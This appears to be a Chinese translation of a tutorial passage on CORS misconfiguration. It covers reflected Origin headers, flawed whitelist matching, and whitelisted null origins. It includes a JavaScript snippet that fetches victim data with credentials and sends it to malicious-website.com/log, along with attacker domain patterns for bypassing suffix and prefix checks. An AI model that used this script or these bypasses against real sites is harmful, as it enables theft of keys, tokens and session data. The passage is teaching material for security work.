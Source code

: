 ### 来自客户端指定的 Origin 标头的服务器生成的[ACAO](https://portswigger.net/web-security/cors/access-control-allow-origin)标头

一些应用程序需要提供对许多其他域的访问。维护允许域的列表需要持续的努力，任何错误都有可能破坏功能。因此，一些应用程序采取了有效允许来自任何其他域的访问的简单途径。

一种方法是从请求中读取 Origin 标头并包含一个响应标头，说明允许请求的来源。例如，考虑接收以下请求的应用程序：

`GET /sensitive-victim-data HTTP/1.1 Host: vulnerable-website.com Origin: https://malicious-website.com Cookie: sessionid=...`

然后它响应：

`HTTP/1.1 200 OK Access-Control-Allow-Origin: https://malicious-website.com Access-Control-Allow-Credentials: true ...`

这些标头声明允许从请求域 ( `malicious-website.com`) 进行访问，并且跨域请求可以包含 cookie ( `Access-Control-Allow-Credentials: true`)，因此将在会话中进行处理。

因为应用程序在标头中反映了任意来源`Access-Control-Allow-Origin`，这意味着绝对任何域都可以访问易受攻击域的资源。如果响应包含任何敏感信息，例如 API 密钥或[CSRF 令牌](https://portswigger.net/web-security/csrf/tokens)，您可以通过在您的网站上放置以下脚本来检索它：

`var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); function reqListener() { location='//malicious-website.com/log?key='+this.responseText; };`

### 解析 Origin 标头时出错

一些支持从多个来源访问的应用程序通过使用允许来源的白名单来实现。当收到 CORS 请求时，将提供的来源与白名单进行比较。如果源出现在白名单上，则它会反映在`Access-Control-Allow-Origin`标头中，以便授予访问权限。例如，应用程序收到一个正常的请求，例如：

`GET /data HTTP/1.1 Host: normal-website.com ... Origin: https://innocent-website.com`

应用程序根据其允许的来源列表检查提供的来源，如果它在列表中，则按如下方式反映来源：

`HTTP/1.1 200 OK ... Access-Control-Allow-Origin: https://innocent-website.com`

实施 CORS 源白名单时经常会出现错误。一些组织决定允许从其所有子域（包括未来不存在的子域）进行访问。一些应用程序允许从其他各种组织的域（包括它们的子域）进行访问。这些规则通常通过匹配 URL 前缀或后缀，或使用正则表达式来实现。实施中的任何错误都可能导致访问被授予意外的外部域。

例如，假设一个应用程序授予对以以下结尾的所有域的访问权限：

`normal-website.com`

攻击者可能能够通过注册域来获得访问权限：

`hackersnormal-website.com`

或者，假设应用程序授予对所有域的访问权限

`normal-website.com`

攻击者可能能够使用域获得访问权限：

`normal-website.com.evil-user.net`

### 列入白名单的 null 原始值

Origin 标头的规范支持 value `null`。浏览器可能会`null`在各种异常情况下发送 Origin 标头中的值：

-   跨域重定向。
-   来自序列化数据的请求。
-   `file:`使用协议 请求。
-   沙盒化的跨域请求。
